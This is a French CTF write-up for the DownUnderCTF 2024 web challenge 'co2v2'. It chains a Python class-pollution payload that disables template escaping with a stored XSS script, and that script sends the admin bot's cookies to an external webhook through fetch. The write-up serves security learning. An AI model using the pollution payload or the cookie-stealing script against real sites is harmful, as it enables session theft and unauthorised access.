 ```yaml
---
title: "co2v2"
excerpt: "This is the challenge co2v2 from downunder 2024"
coverImage: "/assets/blog/hello-world/cover.jpg"
date: "2024-07-08"
author:
  name: dolipr4necrypt0
  picture: "/assets/blog/authors/dolipr4necrypt0.png"
ogImage:
  url: "/assets/blog/hello-world/cover.jpg"
---
```


[Source du challenge](https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/web/co2v2/src)

Ce challenge est la suite de co2 dans laquelle on a trouvé une vulnérabilité de type prototype pollution : [https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution). Cette vulnérabilité nous permettait de réécrire n'importe quelle variable globale à travers la route /save_feedback avec comme payload ```{"__class__":{"__init__":{"__globals__":{"GLOBAL_VAR":"VALUE"}}}}```. Ce payload nous permet de remonter la hiérarchie python jusqu'à tomber sur l'objet __globals__ et ainsi accéder aux dictionnaires des variables globales.

Dans ce challenge, la première chose que l'on remarque c'est la présence d'un bot xss avec le flag dans les cookies. Lorsqu'on accède à la route /api/v1/report, on déclenche le bot xss qui visit la page d'accueil. On sait donc que l'on doit introduire un script js dans la page d'accueil. Ce qui tombe bien vu que les blog posts sont affichés sur l'accueil lorsque les posts sont publics.

On commence par introduire des simples balises html dans un post pour voir le résultat, malheureusement le html n'est pas interprété. En lisant le code, on voit que notre input est passé directement dans la base de donnée sans modification. On remarque aussi une variable globale intéressante TEMPLATES_ESCAPE_ALL = True, qui va faire le lien avec le premier challenge. Cette variable globale est passé au moteur de Template qui va s'occuper de l'escaping.

On peut passer TEMPLATES_ESCAPE_ALL à False grâce à la vulnérabilité du premier challenge. Cependant, nos balises html ne sont toujours pas interprétés. Le problème est que le moteur de template est chargé une unique fois au démarrage et que la modification de TEMPLATES_ESCAPE_ALL n'est pas suffisante. Il nous faut recharger le moteur de Template avec la modification de notre variable. Heureusement, la route /admin/update-accepted-templates nous permet de faire cette action.

Cette fois ci, les balises html sont interprétés. Pour finir, ils nous suffit d'introduire le script suivant dans un blog post public
```javascript
<script>fetch("http://<webhook>/"+btoa(document.cookie))</script>
```
 et de trigger la visite du bot xss pour récupérer les cookies et le flag.
